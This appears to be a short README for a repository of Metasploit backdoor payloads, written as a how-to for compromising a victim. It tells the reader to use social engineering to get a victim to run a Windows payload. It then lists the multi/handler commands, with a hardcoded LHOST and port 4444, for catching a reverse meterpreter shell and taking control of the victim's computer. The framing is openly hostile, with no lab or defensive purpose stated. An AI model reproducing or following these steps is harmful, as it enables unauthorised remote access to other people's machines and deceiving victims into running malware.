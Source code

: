 # metasploit_backdoors
A collection of various backdoors are listed here and there varieties .
default settings

LHOST = 192.168.11.78
LPORT = 4444

**steps**
1.Now here the social engineering works.Take the payload to victims computer.
2.Execute the windows file in victim's computer.
3.Fire up your metasploit 

> msfvenom
> use exploit/multi/handler
> set payload windows/meterpreter/reverse_tcp
> set lhost 192.168.11.78
> set lport 4444
> exploit

**Congrats !** guys now you are successfully able to gain the meterpreter session
of victims computer.
type help for more details about victims computer

> meterpreter>help
